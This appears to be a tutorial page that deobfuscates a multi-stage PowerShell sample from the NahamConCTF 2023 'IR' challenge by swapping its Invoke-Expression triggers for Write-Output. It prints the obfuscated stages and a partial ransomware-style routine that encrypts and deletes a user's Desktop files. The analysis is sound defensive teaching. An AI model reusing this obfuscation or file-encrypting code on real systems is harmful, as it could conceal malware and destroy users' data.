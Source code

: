 ```yaml
---
description: Deobfuscate heavily-obfuscated PowerShell scripts to find their source code
---
```


# PowerShell

Obfuscating PowerShell is a real art, and there are many ways to encode scripts in weird ways. Luckily, most of them work in the same way: 1. **Decoding some string** and 2. **Executing that string** as another stage in the script.&#x20;

Often this is a task of finding the part that _executes_ the code, removing it, and instead printing the code so you can analyze it further.&#x20;

I will explain this process with an **example**. This is taken from the _NahamConCTF 2023 - IR_ challenge, which provided the following PowerShell script:

{% file src="../.gitbook/assets/updates.ps1" %}
Obfuscated PowerShell script from the _NahamConCTF 2023 - IR_ challenge
{% endfile %}

It starts off with a lot of special characters that are supposed to evaluate into something:

{% code overflow="wrap" fullWidth="false" %}
```powershell
${;}=+$();${=}=${;};${+}=++${;};${@}=++${;};${.}=++${;};${[}=++${;}; ${]}=++${;};${(}=++${;};${)}=++${;};${&}=++${;};${|}=++${;}; ${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]"; ${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]); ${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]+"${;}"["${@}${)}"]; "${"}${.}${(}+${"}${]}${)}+${"}${)}${@}+${"}${+}${+}${&}+${"}${+}${+}${(}+${"}${)}${)}+${"}${)}${=}+${"}${|}${&}+${"}${(}${)}+${"}${]}${=}+${"}${&}${@}+${"}${)}${+}+${"}$
...
```
{% endcode %}

A common way to make a little sense of this is to format it, like adding **newlines** after `;` semicolons. In this case, however, there are semicolons used all over the place, not just as statement enders. To do this more cleanly we'll use the [`PowerShell-Beautifier`](https://github.com/DTW-DanWard/PowerShell-Beautifier) script to parse and format these statements, which will then allow us to separate a `${;}` from a `;` as only the second has a space after it.&#x20;

```powershell
PS> Install-Module -Name PowerShell-Beautifier
PS> Edit-DTWBeautifyScript -Source .\updates.ps1 -Destination .\stage0.ps1
```

When we afterward replace `;` with `;\n` in an IDE like Visual Studio Code, we find a more slightly more readable script:

```powershell
${;} = + $(); 
${=} = ${;}; 
${+} =++ ${;}; 
${@} =++ ${;}; 
${.} =++ ${;}; 
${[} =++ ${;}; 
${]} =++ ${;}; 
${(} =++ ${;}; 
${)} =++ ${;}; 
${&} =++ ${;}; 
${|} =++ ${;}; 
${"} = "[" + "$(@{})"[${)}] + "$(@{})"["${+}${|}"] + "$(@{})"["${@}${=}"] + "$?"[${+}] + "]"; 
${;} = "".("$(@{})"["${+}${[}"] + "$(@{})"["${+}${(}"] + "$(@{})"[${=}] + "$(@{})"[${[}] + "$?"[${+}] + "$(@{})"[${.}]); 
${;} = "$(@{})"["${+}${[}"] + "$(@{})"[${[}] + "${;}"["${@}${)}"]; 
"${"}${.}${(}+${"}${]}${)}+${"}${)}${@}+${"}${+}${+}${&}+${"}${+}${+}${(}+${"}${)}${)}+${"}${)}${=}+${"}${|}${&}+${"}${(}${)}+${"}${]}${=}+${"}${&}${@}+${"}${)}${+}+${"}${)}${[}+${"}${&}${&}+${"}${]}${[}+${"}${&}${|}+${"}${)}${|}+${"}${(}${]}+${"}${&}${.}+${"}${+}${=}${(}+${"}${)}${&}+${"}${+}
...
```

First, it defines a few variables with the `${}` syntax, and after, it uses those variables in a giant string. The first few variables are some primitives, and the last 3 variables seem to be more complicated but still short. We could statically try to reason with this, but a much simpler way would be to just let PowerShell **evaluate** it for us. Let's run the first few lines making sure nothing can trigger a payload on our investigating machine:

<pre class="language-powershell"><code class="lang-powershell">${;} = + $(); 
${=} = ${;}; 
${+} =++ ${;}; 
${@} =++ ${;}; 
${.} =++ ${;}; 
${[} =++ ${;}; 
${]} =++ ${;}; 
${(} =++ ${;}; 
${)} =++ ${;}; 
${&#x26;} =++ ${;}; 
${|} =++ ${;}; 
${"} = "[" + "$(@{})"[${)}] + "$(@{})"["${+}${|}"] + "$(@{})"["${@}${=}"] + "$?"[${+}] + "]"; 
${;} = "".("$(@{})"["${+}${[}"] + "$(@{})"["${+}${(}"] + "$(@{})"[${=}] + "$(@{})"[${[}] + "$?"[${+}] + "$(@{})"[${.}]); 
${;} = "$(@{})"["${+}${[}"] + "$(@{})"[${[}] + "${;}"["${@}${)}"]; 

<strong>PS> ${"}
</strong>[CHar]
<strong>PS> ${;}
</strong>iex
</code></pre>

Here we find a very important string: `iex` which means **I**nvoke-**Ex**pression. This will take a string, and execute it as PowerShell code, which is very common for these obfuscators. We need to be careful to **remove** this part to make sure our code is not actually run, only the string is evaluated for us.&#x20;

All the way at the end of the script we find:

```bash
...${]}${|}|${;}" | &${;};
```

We will remove this `${;}` now that we know it means to evaluate and run the code, and instead replace it with a `Write-Output` command which simply prints it to the console:

```bash
...${]}${|}|${;}" | Write-Output
```

Running this safe script now prints the next stage of the script, obfuscated in a different way:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>PS> .\stage0.ps1 > stage1.ps1
</strong>
[CHar]36+[CHar]57+[CHar]72+[CHar]118+[CHar]116+[CHar]77+[CHar]70+[CHar]98+[CHar]67+[CHar]50+[CHar]82+[CHar]71+[CHar]74+[CHar]88+[CHar]54+[CHar]89+[CHar]79+[CHar]65+[CHar]83+[CHar]106+[CHar]78+[CHar]101+[CHar]66+[CHar]120+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]61+[CHar]107+[CHar]105+[CHar]73+[CHar]119+[CHar]108+[CHar]109+[CHar]101+[CHar]117+[CHar]65+[CHar]51+[CHar]98+[CHar]48+[CHar]116+[CHar]50
...
[CHar]86+[CHar]32+[CHar]59|iex
</code></pre>

It uses a very similar scheme, building out a script and then evaluating it with `iex`, literally this time. In a very similar fashion to last time, we'll simply remove the trigger of the payload and only print it using `Write-Output`:

```
...
[CHar]86+[CHar]32+[CHar]59 | Write-Output
```

When we now execute the safe script, we find another stage:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>PS> .\stage1.ps1 > stage2.ps1
</strong>
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJCKggGdhBFbhJXZ0lGTtASblRXStUmdv1WZSpQD5R2biRCI5R2bC1CIi42bpRXYyRHbpZGel9SbvNmLyV2ajFGasxWZoNncld3bwVGa05yd3d3LvozcwRHdoJCIpJXVtACdz9GUgQ2boRXZN1CI0NXZ1FXZyJWZX1SZr9mdulkCN0XY0FGRlxWaGBXa6RSPlxWamtHQgQ3YlpmYPRXdw5WStAibvNnSt8GV0JXZ252bDBSPgkHZvJGJK0QKzVGd5JUZslmRwlmekgyZulmc0NFN2U2chJ0bUpjOdRnclZnbvN0Wg0DIhRXYEVGbpZEcppHJK0QZ0lnQgcmbpR2bj5WRtAydhJVLgkiIwlmeuA3b0t2c
...
N3bwBCL9VWdyR3ek0Tey9GdhRmbh1EKyVGdl1WYyFGUblQCK0AKtFmchBVCK0wezVGbpZEdwlncj5WZg42bpR3YuVnZ" ; $OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray() ; [array]::Reverse($OaET) ; -join $OaET 2>&#x26;1> $null ; $biPIv9ahScgYwGXl0FyV = [SySteM.tExt.EnCOding]::uTf8.GetStRIng([SySTEm.COnVerT]::FrombASe64StRINg("$OaET")) ; $ehyGknDcqxFwCYJz5vfot4T8 = "iN"+"vo"+"Ke"+"-e"+"xP"+"RE"+"ss"+"Io"+"n" ; neW-aLIAs -NAme PwN -VAlUE $ehyGknDcqxFwCYJz5vfot4T8 -forCE ; pWN $biPIv9ahScgYwGXl0FyV ;
</code></pre>

This is another nightmare one-liner, but we'll simply use the `PowerShell-Beautifier` trick together with replacing `;` with `;\n` to make it more readable:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS> Edit-DTWBeautifyScript -Source .\stage2.ps1 -Destination .\stage2.ps1
</strong>
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJC...zVGbpZEdwlncj5WZg42bpR3YuVnZ";
$OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray();
[array]::Reverse($OaET);
-join $OaET 2>&#x26;1 > $null;
$biPIv9ahScgYwGXl0FyV = [System.Text.Encoding]::uTf8.GetStRIng([System.Convert]::FrombASe64StRINg("$OaET"));
$ehyGknDcqxFwCYJz5vfot4T8 = "iN" + "vo" + "Ke" + "-e" + "xP" + "RE" + "ss" + "Io" + "n";
New-Alias -Name PwN -Value $ehyGknDcqxFwCYJz5vfot4T8 -Force;
pWN $biPIv9ahScgYwGXl0FyV;
</code></pre>

Pretty clearly we can read the string concatenation in `$ehyGknDcqxFwCYJz5vfot4T8` is another `Invoke-Expression`. This is assigned to a `New-Alias` as `PwN`. Later we see this alias used on another string, which would be executed as code. So instead, we again replace this with a `Write-Console` to find what it does:

```powershell
$9HvtMFbC2RGJX6YOASjNeBx = "=kiIwlmeuA3b0t2clREXzRWYvxmb39GRcJyKyV2c1RyKiw1cyV2cVxlODJC...zVGbpZEdwlncj5WZg42bpR3YuVnZ";
$OaET = $9HvtMFbC2RGJX6YOASjNeBx.ToCharArray();
[array]::Reverse($OaET);
-join $OaET 2>&1 > $null;
$biPIv9ahScgYwGXl0FyV = [System.Text.Encoding]::uTf8.GetStRIng([System.Convert]::FrombASe64StRINg("$OaET"));
Write-Output $biPIv9ahScgYwGXl0FyV;
```

Running this final stage we find the clean source code:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS>  .\stage2.ps1 > stage3.ps1
</strong>
function encryptFiles{
	Param(
		[Parameter(Mandatory=${true}, position=0)]
		[string] $baseDirectory
	)
	foreach($File in (Get-ChildItem $baseDirectory -Recurse -File)){
		if ($File.extension -ne ".enc"){
			$DestinationFile = $File.FullName + ".enc"
			$FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
			...
			$FileStreamWriter.Close()
			Remove-Item -LiteralPath $File.FullName
		}
	}
}
$flag = "flag{892a8921517dcecf90685d478aedf5e2}"
$ErrorActionPreference= 'silentlycontinue'
$user = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name.Split("\")[-1]
encryptFiles("C:\Users\"+$user+"\Desktop")
...
</code></pre>

In this challenge, the flag was found here. But in other cases, you might want to understand the `encryptFiles` function now to find how files are encrypted, and how they can be decrypted.&#x20;

> For another example that digs more into understanding the payload, see this [walkthrough](https://www.youtube.com/watch?v=GguO\_Oc0h5A) of another piece of obfuscated PowerShell malware.&#x20;
